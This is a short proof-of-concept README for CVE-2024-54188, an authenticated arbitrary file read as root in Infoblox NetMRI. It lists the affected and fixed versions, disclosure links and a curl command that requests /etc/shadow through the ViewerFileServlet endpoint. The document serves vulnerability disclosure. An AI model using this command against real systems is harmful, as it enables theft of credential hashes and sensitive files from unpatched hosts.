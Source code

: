 # CVE-2024-54188: Infoblox NetMRI Authenticated Arbitrary File Read as Root

## Information
**Description:** This exploits an authenticated file read vulnerability to extract sensitive files as root.  
**Versions Affected:** 7.5.4.104695  
**Version Fixed:** 7.6.1  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/infoblox-multiple-cves/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-54188  
**Vendor Advisory:** https://support.infoblox.com/s/article/Infoblox-NetMRI-is-vulnerable-to-CVE-2024-54188

## Proof-of-Concept Exploit
### Description
This exploit targets the ViewerFileServlet endpoint to read any file by supplying an arbitrary path.

### Usage/Exploitation
```
curl -k --cookie 'Skipjack=<COOKIE>' 'https://<NETMRI_HOST>/visual/ViewerFileServlet?fileName=/etc/shadow'
```

### Screenshot
![poc_image](poc.png)
